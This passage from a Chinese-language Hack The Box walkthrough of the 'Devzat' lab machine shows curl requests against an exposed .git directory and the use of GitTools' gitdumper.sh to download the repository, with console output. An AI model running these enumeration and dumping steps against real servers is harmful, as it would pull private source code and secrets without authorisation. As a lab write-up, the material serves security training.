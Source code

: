 我们可以看到这是一个 git 存储库，有几个文件和一些文件夹:

```
┌──(root💀kali)-[~/htb/devzat]
└─# curl http://pets.devzat.htb/.git/COMMIT_EDITMSG
back again to localhost only

┌──(root💀kali)-[~/htb/devzat]
└─# curl http://pets.devzat.htb/.git/logs/HEAD     
0000000000000000000000000000000000000000 8274d7a547c0c3854c074579dfc359664082a8f6 patrick <patrick@devzat.htb> 1624391552 +0000 commit (initial): init
8274d7a547c0c3854c074579dfc359664082a8f6 464614f32483e1fde60ee53f5d3b4d468d80ff62 patrick <patrick@devzat.htb> 1624474943 +0000 commit: fixed broken fonts
464614f32483e1fde60ee53f5d3b4d468d80ff62 ef07a04ebb2fc92cf74a39e0e4b843630666a705 patrick <patrick@devzat.htb> 1624475172 +0000 commit: back again to localhost only
```

# Gitdumper

我们需要转储 git repo，这样我们就可以轻松地查看它。在前面一个名为[旅行](https://www.hackthebox.com/home/machines/profile/252)的盒子中，我们使用了 [GitDumper](https://github.com/internetwache/GitTools) ，让我们再来一次:

```
┌──(root💀kali)-[~/htb/devzat]
└─# git clone https://github.com/internetwache/GitTools.git
Cloning into 'GitTools'...
remote: Enumerating objects: 229, done.
remote: Counting objects: 100% (20/20), done.
remote: Compressing objects: 100% (16/16), done.
remote: Total 229 (delta 6), reused 7 (delta 2), pack-reused 209
Receiving objects: 100% (229/229), 52.92 KiB | 1.65 MiB/s, done.
Resolving deltas: 100% (85/85), done.

┌──(root💀kali)-[~/htb/devzat/GitTools/Dumper]
└─# ./gitdumper.sh http://pets.devzat.htb/.git/ pets_git
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
###########
[*] Destination folder does not exist
[+] Creating pets_git/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
<SNIP>
[+] Downloaded: objects/f3/3e8162997aaa9da582aa81428ee87aa48953a6
[+] Downloaded: objects/73/c1a4d5d156b6ddc62a7e3eba1c206bd6ad19c8
[+] Downloaded: objects/dc/52d954d8d7f62c82cf63236d27093764a3d046
```
